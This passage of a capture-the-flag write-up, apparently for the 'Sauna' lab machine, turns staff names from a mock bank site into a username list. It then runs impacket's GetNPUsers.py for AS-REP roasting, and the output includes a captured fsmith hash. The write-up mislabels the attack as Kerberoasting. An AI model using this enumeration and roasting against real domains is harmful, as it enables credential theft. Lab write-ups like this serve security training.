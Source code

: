 The website is about the Egotistical Bank.

![Sauna website](/media/2020.xx/sauna_01.png)

The only "interesting" page is the "about" page where we can get a list of the
"amazing" team.

![Sauna the "amazing" team](/media/2020.xx/sauna_02.png)

We get the teams members and put them in a file. We try to guess the name
convention use by the company. For instance, for the employee John Doe we try
"john.doe", "jdoe", "jodoe". This give use a list of possible users as the
following:

    :::text
    fergus.smith
    hugo.bear
    steven.kerb
    shaun.coins
    bowie.taylor
    sophie.driver
    fsmith
    hbear
    skerb
    scoins
    btaylor
    sdriver
    fesmith
    hubear
    stkerb
    shcoins
    botaylor
    sodriver

We launch [impacket's](https://github.com/SecureAuthCorp/impacket/) script
`GetNPUsers.py` against our users list. We get the krb5tgs/Kerberoasting hash of the fsmith
user.

    :::text
    python GetNPUsers.py  -dc-ip 10.10.10.175  egotisticalbank/ -usersfile ~/pentest/htb_sauna/users
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    $krb5asrep$23$fsmith@EGOTISTICALBANK:7737b8e55d1ac7976a01e619a1268567$268f28ec59cfeda91a139f8f8c2c5cb9679d0dc04ba133f031b3021ebbd203888cd12633a0e604ad28420ff3fe41694d38f55b434bbe2af2b7ee0958a9a5705e4a880e2ecebb74a4d1aca73371cfcb73fb54a61520392d76079cc32bf3e128b87e3450d68361a84b4c686104e2fe13dc3cd7bd381a5ac87737ab8b95908bf0be409c7642fcfac3599aca04d19fd0f25f7bb4908a6fb496975f68ee3a4761ca406a43502b86410774127f25a5dc14c76dde7ac458df451dbcb093c4c6d069406e98c4839ecd6a0952a0850c289fab93e29682ec64cb690add83d0c6986c8f078bf25e53662f7d7fcc2c1e4740554036218a71320da2067a1298
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
